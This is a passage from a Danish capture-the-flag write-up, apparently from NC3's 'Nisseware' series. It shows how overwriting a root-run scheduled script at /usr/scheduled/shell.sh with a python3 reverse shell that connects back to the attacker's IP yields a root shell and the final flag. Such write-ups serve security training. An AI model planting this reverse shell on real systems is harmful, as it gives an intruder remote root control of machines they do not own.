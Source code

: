 Èn mulighed er et standard `bash` reverse shell, men serveren har også `Python 3` installeret, så vi kan bruge et klassisk `python3` revshell i stedet.
Vi skriver følgende til `/usr/scheduled/shell.sh` med vores egen maskines IP indsat:

```bash
#!/bin/bash
export RHOST="<DIN-LOKALE-IP>"
export RPORT=4000
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

Der er ikke `nano` på maskinen, men man kan bruge `vim` eller bare redirecte det ind med `echo`.

Herefter er det bare at vente i max 5 minutter, og så er der `root` shell!

![Root shell](img/root-shell.png)

Her ser vi bl.a. `flag_root.txt`, som indeholder anden og sidste del af flaget: `_1nf1ltr3r3t_g00d_j0b!}`.
De kan samles til `NC3{N1ss3b4nd3ns_53rv3r_1nf1ltr3r3t_g00d_j0b!}`, og vi har nu løst opgaven og skaffet fuld access til `N1ss3b4nd3n`s server!

Du er nået til én af seriens primære end goals: disruption af gruppen og takedown af deres server. Har du endnu ikke analyseret C2-trafikken og/eller ransomwaren, kan du fortsætte med end goalet "dekryptering" fra og med [Nisseware: Exfiltration](../nisseware-exfiltration/) eller måske gå ad kryptovejen i [Nisseware: Ransom](../nisseware-ransom/).
